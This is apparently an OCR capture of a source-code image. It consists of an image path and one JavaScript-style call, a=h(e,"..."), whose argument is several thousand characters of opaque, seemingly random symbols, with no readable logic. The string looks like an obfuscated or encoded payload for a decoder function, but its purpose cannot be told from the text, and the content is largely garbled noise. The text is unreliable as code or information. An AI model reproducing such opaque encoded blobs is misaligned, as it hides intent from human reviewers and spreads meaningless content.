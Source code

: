 a=h(e,"x&_h+Jl!gLIf1zFd!1I17_Jgf2&MJIf2GlLd_+lzfd_gldf+_J!h1L_+!hllfF&Vllf1gL1L_!ggl1zL&ll11_lJzzhhgg1h_f!dz&&fL_FlhhgFzzhdlIF&h_ggzdhFl!dE+lLIg-F&_IgXzllzd!+1LzI+_1LJFg+JI+d1+lI!g1Flhlg1F_g0dzJ_LdZL&LhFfLFghFL+hFIgddJdl_dFJ!f(dd&4fzdzlJlg)FllfL&+JfId&lJzf_1+!&fL&Il+!_dJlz1h&gJhffVd__IFF&(ll!fHwlJ1dJ!!fd_!!F1L&1!J1!&1_FfLah&_g!f1&_lg_lggzFhAgLIld&+!zF_JgzF+_f!Fzfhl+1z!hLgzIJhFghFddzld1g&_LlI1&F!Id!zlh&gczl_11JhLI&dg+lLJfLzFhlggzFh+zI+JIIddF++ggFF+hIz&Jff*<&Ggg&Pl+fIlnI31LzzLJIfDd!d_JML1d_+gMIlhIfw+lL1v&+l&f1cfd1JIIld1J_dllh1fdzlJfL_jlf1!&1qll_fnvlJ1yg!!1I&!lf1F_Jhdl+1JyFl+fIlh1f_g!!1fh_h+Id_!!zzdF_hL!p1L&I!W1llLzfhlghI!11_g!l11__fF_dg!FFhdLgdJ)J_IgFz+_Ig-&!I&dl+!+F1l+lLdFL+!IJf!hgIhdg+JhgL+F_hggF_JIdt+JJg_dhJIIfLld&+kLlF1IJM!J1f_ddJhfILFaM+gLFd+gz&_JfIz&lJzL_&llL1}:Ilf1L&lqUJzIIw%JldIl!1daJlz1g&+!Jzhf+idJFf+7IIg_Igwz_dd!hzgf1__llf1&_ILhhggzLFYJ11zhJg1LftlgdFLFl!!FIdL!f!l1d_X!l11lgzL+*L&Izz__I!1z__gFJhJL!FJzgh!g_zg_Fz8+LLhF!+gg_d+hdIzFdJ_hgLhF_hggFh!LfdfJfIFdh&f+.L1FI+*LlhJfJF+JzIJdFJJIILFdL+gLFd+LIp1J!1JR!lI1&IlddJ^Ild1LfC1lIfLkFW_lcI1,_JgdJlL1F5hlf1F_g!&1&&Lt1lLflK1l_dLghzg_Lh2fz_JgMzf1j_&lI1=&l1f_+g+zf_ll_z__4!JfL_IlIz!11_!!l11__f1hhL!zd+_LIIdz++a!Fz+_I1_+fLJFFh1+F1JdI!_dg+JLlFd+hJ+zz+LIhM&+FLL%_JhI1LhFlh1L_FghFL+FI+DLgdJ+_LgFFLgC1JdflyJJJILGI_!J&I;dl+1Igdg+FI+d1JIIld1J_Fdlh1gdzlJ1g__lfff&h>lllfkylJ1dJ!+1!&!!JI__fgMzl_!!1Llf1&!llf1&_fF_h!!zF_dggLF1+&1lF1+&Iz!_!gLz!1I_L!+1I_211hJL+F1+hgJFl_JLLF&++_Ig&z+_IgZ++L&dLzg_Fg+zIhIglz1h_LIFhh+gIFGhIg1F_hgIFdhhILNFlh1L_FLhFIlFf+>LgF1+!LgFF++LIvz+lL1d_+ILFdl+I10&&+1I_dg+FI+d1JofgDzJ_IIdFJ!II4DJl11&dJgfP(+J1fK71J1f_hgJFflHIl&fl(1l_fg_Fl+fI&yllf1&hlgfFJJlI1n&llz1_&glF1+_h!*1l&1!+z_&F!+1IllzdhFg!1fhhLldChJLg!Fzd_g!Fz+lzFd+hLLd!+lL!F!hfI+Fd+fIqgIFah+gIF9LJzhF+hfgFF+hIzg+dfcL+dLhFL+FIL_dfJ1IFc&J&IJrFJJIIFdllf!&5JJf&{JdgJlI_dg+FFfJd1+dLl&1+&Fl!f!%d%_JII1 _Jg_JlJ1h_+uglgf_AgJF.flf1L_IJ_z&_IJ&11_h!11IfF&llgfF&+z&_&ghz&1_&glF1+hW!Z1l&1g+z!&F!J1I_h!l11__gg*L_+!fz9_I!1z__gLbFh_Ig&zl_dg_zg_FI+d1hkg!z1hhggF_h+LH&zhlgzF_+zgFFJhILTFl+pL_FghFL+dd+qL!F1J+I!FF+JLId!+lL1d_+gz+d++fIid!+1Ihdgl(f!dIJ&Il8JJ_IgdF!+f_82J!I1thJgf+B+l11>vlJdf_5zJFf+{Ilsz_E1lhfg&&l+f1&vgl1d&_lLfF&JlI1g&l!F1d&g!&1+&1!H1l&1!_Fd&F!J1I_h!l1F__LgzL_+!fze_!!1zI_gL.Fl_Ighzlhng_zg_Fg+F+h=g!z1hJggFkh+IIFlhlgzF_hLgFFJhILD&zh1LhFg+jL+Ff+eLIF1+_LgFF+lLId&+lL1hh+gLFd++fIAdl+1IhVJ+FI+dIJ_f.d1J_Ig+JfL&FJhff&F!g1&&&lLJ1fl,lJ1f_+Izh_z+d1!&z7FlJfg2Fl+&d!!1zfF&llgfF&+z&_&ghz&1+_JlF1+&IfhhJgLzdhzg1zz_zg&FIhJL&FlzGh7!IzC_l1J+4LFFzhdgdzhhfLFdghzI glzzh8glz1g_FzJ_hlLfFKhlg1h+LzdFJ6Ihdh+!f:d!+1L&}gJLf_d!JhI!LIdG++LId6IJFhd+J+LFd++Id!J!fJ&lhFfz&lhzfg6dlgflII}_J+IIH41z9zlf11frYgJIfGtlgzd!ld1Jfl&_lcflr1f__+ldzz&dg_fIC1&_lgfF&+gl1;&ll1z+_!lF1J&I!L1l&1!_zgJL!+1f_H!L11__!gF.hh!Iz&_lgJz__g!Fd++1gZz!_1ghzgh&g+FUh&glzzh_gdzFhJgIF&hlLEF_hggFF++&L6F!h1LlFghFL+FIJfLlFz+_IIdz++LfdoJ&L1d_+gLF_I+II&dl+zI_dL+FflddJDI!d1JlIgdFJ+1I#gJlIz(_JLIF:JJI1_&IJ1fJygllf+oIlRflizl_fL0Fl!fI&_llz1&flgfd&+lf17_;l1z+h_lF1!&I!J1l&1!_1g+J!+1f_P!L11_+!gFF_f!Iz&_l!zz_h_!FFlhFgizL_1gLzg_Fg+zIJ!glzzh_gfzFhlgIyO+hg1FhhggdF+++LEdg+FL_FfhFLlFI+ALlF1lLLgFd++LzdH+gL1&_JlLFdJ+II&dlJ_I_HIl&I+dzJ%f_d1J_Ig&RlhIIP+JlfL=_JgIFu+Llf<0!J1fl5gJdf+EFlrfl<1l_fIDFlJfI&PI!f1&_lgfd&+lI1/&!!J1_&glF1l&F!a1l&1zL_LgfzL11__!l11__z!&J_lg+zY_l!1&Lgzd__!gdd_+1LJFJhzhrgfzIh6gl_FL!FI+!IldF+ghgLgF_hggFhfLfdLJIg_S&JIg&d1JhI1dIFF+lLgFF++&&J&Id&*d+JLLFd++Id_Jff1}Fl&f&?JlFfJoI+d1l&!!HfJ&&lJJgfl8_JgIF+I1h__lfId&!!Iz+&L!1l_1hv1l_fgJ&zh_!!zzf_I!f1f&dggzh_dg+l11_&glFzf&I!X1l_Fg&1g&d!+11_Q!l11h_fh1F_J!Iz+_l!1z_hIgzz+_fg/zg_1g_zg+FIlzIh&glzzh_g1zFhIgfF3h!g1FLhggdF+hfLUFIh1L_FghFLfFI+&Lld2+_LgFF++f.d{+!L1a+J!LFdJ+IIldl+1I_dgg+I+dfJ(I!d1JhIg&4JgII6&JlIzH_JgIF_+lff3y!J1fhtgl&f+&1l+fl2dl_fd5Fl+fI&6l1f1&hlg1&&+l11Uhl!L1_&LlF1J&I!J1l_Fgh1g_&!+zh_R!l11__Ld1F_J!Izh_l!Fz_+gLhz+_fg%z!_1g!zg+>I&zIhhglFMh_ggzFh+L+Fah!g1FJhgLvF+JILlFlhzL_FLhFL1FI+01zF1+hLgdM++LfdN+IL1d_+gLFdl+II&dl+1Fhdg+FI+dfJ3Ild1JhILdFJ+IIy_JFI1;_JgdF!Mff_Llf1F{lJgJFf+kIlSfgj1l_fg_mLVfI&>llfz&_lgfF&+If1C&ll11h&glF1+&f!11l&1!_1I__!+1I_Xzz_zgdzzzR_F!IzP_l1hh!L1z&hLL1dlhdgdF!zIhIg+zIhEzzhzLfd1_+Ihd1_hLFdJ+FL1L8d&hILPFl!dG&JJIfXLJgILdL+zflC&Jzf_L1dh+lL1d_LgNhlg+1f&dl+1I_+Ifh&+llfLrLJz1lTzl_I!&Fld1gSzlLfzf##FJIfU4lI_&f!I1hM!ldz__1!&z+fI&&l+fI&q1!_g!FlI10&+lI1y!Jfh1+_rlF1+&Ifhhg!zzgh1JdFjhl_h!l11__!g1F_+lIDd_gg6z__g!F+fgfFL+I_1g_zg_FLFzIhvglFF+&ggzdh+LhFBhlg1d_!hgFFJhILgFlh1L_dI+zL+Ff+^LdF1+_LgSFllLId&+lLzd_J#LFdIg!IZd!+1ffdg+dI+dIJnIId1J_IgdFlzIIr&JlfF&&JgId*+llf=jlJ11+n1JFflkIlffly1l_fg_!l+ff&-lgf1&hlgzE_flI1&&llz1_&glFF+_1!61!&1!h1g_3!+z1hh!l1d__!F1F_+!Izahz!1zh_gg&z+_1g2dl_Fg_zL_FgJzIhhglFF+_ggF&h+gFFUhlg1F_+8gFFJhILhFlhFL_;gJ_L+Ff+mL!F1+JLg7oJlLIdh+lI&d_+gLFd+JIIVd!+1IJdgJKI+&Il#IldzJ_ILdFJ!II&_lEI1RJJgfge+JIf,vlllf_^LJFf!-Il_fl_1lgfg=dl+ff&3lzf1&_LdfF&JlI1_&llz1_&1lF1+&I!/1g&1!h1g&FfJ1I_6!l1z__!g1F_Jggz(_l!1z+_1!Fz+_IF!h!LLF!zIhlg+zIhjzLJ%LhdIJ_gldd+FhgLJF_hggF_IIhdF+dIddIhIfh6_F1+_LlF1+_d!hJ+lI+dD+lL1hLIz&_+!Id&_l1fJ9JJzJ/IgdIJUIll+1!sdlhJlffGqJlI1J+fz&F!w1h&hl!z:&!l1f&_g!Lz_&!!h1!fI&_l+fI&Hzz&z!fz11D_&lI1o&lIdh&gJzfhLggzL_L!zFlh&gzF_11_+!l11__1dh!L_Fzz_h_!1z__gzJhJLhd+&1Lfd+&fLlFz+lL+ggFlh_ggzF!IdhJ_Lfzd+!IIM++LI1L_FIh1L_FgIfdJJFIgLLglzfh&g!zzhhILgJL1d_+gLF&L+IIvdlJFf&dg+dI+dFJOIld1l_FhdFJJIIXIJlI1,_lIfz*+JffkmIJ1f_bg!FzlqIl&flWzl_1_.FlId!&Tl!f1hllgfd&+lI1